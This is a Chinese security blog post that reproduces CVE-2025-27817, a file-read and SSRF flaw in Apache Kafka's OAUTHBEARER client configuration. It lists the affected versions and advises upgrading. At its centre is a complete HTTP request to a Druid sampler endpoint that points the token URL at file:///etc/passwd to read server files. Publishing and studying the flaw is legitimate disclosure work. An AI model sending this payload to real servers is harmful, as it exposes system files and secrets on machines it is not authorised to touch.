 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzU5MTc1NTE0Ng==&mid=2247486069&idx=1&sn=686dff0eb15fbaf6950e19c95f008dba

#  【漏洞复现】Kafka Connect任意文件读取漏洞 CVE-2025-27817  
YGnight  night安全   2025-06-13 09:22  
  
公众号新规  
只对常读  
和  
星标的公众号才能展示大图推送，  
建议大家把公众号“  
n  
i  
g  
h  
t  
安  
全  
”设为  
星  
标  
，  
否  
则  
可  
能  
就  
看  
不  
到  
啦  
！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqhia1cXxs2MiaTdgf2bBwXka6sHg0pvRw6MpQSvVF3CeJ83RS0Ys1YBXC1vM6icvsxKialdwur2lAFAsQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/SaibaRNhOjqhia1cXxs2MiaTdgf2bBwXka6kXG7JA6Rbic2FFaqy9dPWrQlwfRNCPfyicibm6Evv39Z6VttiagBARRQgw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
免责声明  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/SaibaRNhOjqg4CicjYhkyn7j8xeutLIIGlA3Pam1Oxz5ujOUsmPibr5J9NCiagtp8nGEEXPeJiaUeWkN3v1XXSS9Vfw/640?wx_fmt=gif "")  
  
  
  
night安全致力于分享技术学习和工具掌握。然而请注意不得将此用于任何未经授权的非法行为，请您严格遵守国家信息安全法律法规。任何违反法律、法规的行为，均与本人无关。如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/oMlX8Lll9JhtrlOVpAFwbbnTXyrqweQO0kKLSPTRtSL4MEXjM3TdHU1GMhb3ysoFV3ic9hKDLibzic6T7ADMnfNnA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
漏洞描述  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqgKudaKX42OfQGmjyT6AU6BvDJ2DlriahviahK1C8qV3uEZibp7jJtCRsialo4eNky2ZHT2n2NOVrbnrA/640?wx_fmt=png&from=appmsg "")  
  
       已在Apache Kafka Client中发现可能的任意文件读取和SSRF漏洞。Apache Kafka客户端接受用于设置与代理的SASL/OAUTHBEARER连接的配置数据，包括“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”。Apache  Kafka 允许客户端读取任意文件并返回错误日志中的内容，或将请求发送到意外位置。在 Apache Kafka  客户端配置可由不受信任的一方指定的应用程序中，攻击者可能会使用“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”配置来读取磁盘和环境变量的任意内容或向意外位置发出请求。具体而言，Apache  Kafka Connect 中可能会利用此缺陷从 REST API 访问升级到文件系统/环境/URL 访问，这在某些环境（包括 SaaS  产品）中可能是不可取的。从 Apache Kafka 3.9.1/4.0.0开始，我们添加了一个系统属性（“-Dorg.apache.kafka.sasl.oauthbearer.allowed.urls”）来设置  SASL JAAS 配置中允许的 url。在 3.9.1 中，它默认接受所有 url 以实现向后兼容性。但是，在 4.0.0  及更高版本中，默认值为空列表，用户必须显式设置允许的 url。  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
影响版本  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  

```
3.1.0 ≤ Apache Kafka < 3.9.1
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
  
      

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: xxx.xxx.xxx.xxx
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1617
{
  &#34;type&#34;: &#34;kafka&#34;,
  &#34;spec&#34;: {
    &#34;type&#34;: &#34;kafka&#34;,
    &#34;ioConfig&#34;: {
      &#34;type&#34;: &#34;kafka&#34;,
      &#34;consumerProperties&#34;: {
        &#34;bootstrap.servers&#34;: &#34;127.0.0.1:6666&#34;,
        &#34;sasl.mechanism&#34;: &#34;OAUTHBEARER&#34;,
        &#34;security.protocol&#34;: &#34;SASL_SSL&#34;,
        &#34;sasl.login.callback.handler.class&#34;: &#34;org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler&#34;,
        &#34;sasl.oauthbearer.token.endpoint.url&#34;: &#34;file:///etc/passwd&#34;,
        &#34;sasl.jaas.config&#34;: &#34;org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required sasl.oauthbearer.token.endpoint.url=\&#34;http://127.0.0.1:9999/token\&#34; sasl.oauthbearer.jwks.endpoint.url=\&#34;http://127.0.0.1:9999/jwks\&#34; sasl.oauthbearer.client.id=your-client-id sasl.oauthbearer.client.secret=your-client-secret sasl.oauthbearer.expected.audience=kafka sasl.oauthbearer.expected.issuer=\&#34;http://127.0.0.1:9999\&#34; useFirstPass=true serviceName=kafka debug=true;&#34;
      },
      &#34;topic&#34;: &#34;test&#34;,
      &#34;useEarliestOffset&#34;: true,
      &#34;inputFormat&#34;: {
        &#34;type&#34;: &#34;regex&#34;,
        &#34;pattern&#34;: &#34;([\\s\\S]*)&#34;,
        &#34;listDelimiter&#34;: &#34;&#34;,
        &#34;columns&#34;: [&#34;raw&#34;]
      }
    },
    &#34;dataSchema&#34;: {
      &#34;dataSource&#34;: &#34;sample&#34;,
      &#34;timestampSpec&#34;: {
        &#34;column&#34;: &#34;!!!_no_such_column_!!!&#34;,
        &#34;missingValue&#34;: &#34;1970-01-01T00:00:00Z&#34;
      },
      &#34;dimensionsSpec&#34;: {},
      &#34;granularitySpec&#34;: {
        &#34;rollup&#34;: false
      }
    },
    &#34;tuningConfig&#34;: {
      &#34;type&#34;: &#34;kafka&#34;
    }
  },
  &#34;samplerConfig&#34;: {
    &#34;numRows&#34;: 500,
    &#34;timeoutMs&#34;: 15000
  }
}
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqgKudaKX42OfQGmjyT6AU6BusxMyl9Oh9r4nfzvticJB8KvogygFubnictqpEic7HXKFGCQ6VarFhV9Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
修复建议  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  

```
官方已推送更新版本，受影响用户可以升级至3.9.1及以上版本。
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/oMlX8Lll9JhtrlOVpAFwbbnTXyrqweQO0kKLSPTRtSL4MEXjM3TdHU1GMhb3ysoFV3ic9hKDLibzic6T7ADMnfNnA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/SaibaRNhOjqhXmCUxdZR0bITTD3G86qXKpciaqHNr4Y60SPF1XeS358wiceQDUm8K5zh7RZsnknYxKJ37kkkcpWZg/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqhia1cXxs2MiaTdgf2bBwXka6DCLEF53OGJWH7A9YU8LA95g10yEzvZgFYhwhV3OQX3qdtk7vIsWncw/640?wx_fmt=png&from=appmsg "")  
  
****  
扫  
码  
关  
注  
  
获  
得  
更  
多  
资  
讯  
  
****  
  
